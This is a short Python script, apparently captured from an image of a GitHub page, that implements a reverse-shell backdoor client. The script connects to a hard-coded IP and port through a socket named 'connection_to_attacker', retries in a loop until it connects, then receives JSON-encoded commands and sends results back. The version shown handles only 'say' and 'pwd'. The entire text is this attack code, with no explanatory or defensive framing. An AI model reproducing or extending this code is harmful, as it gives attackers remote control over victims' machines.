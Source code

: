 def reliable_recv():
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    while True:
        command = reliable_recv()
        if command == 'say':
            print("Hello World")
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                reliable_send(files)
            except:
                pass
        else:
            pass

def connection():
    while True:
        #random.randint(5,15)
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.39.129", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
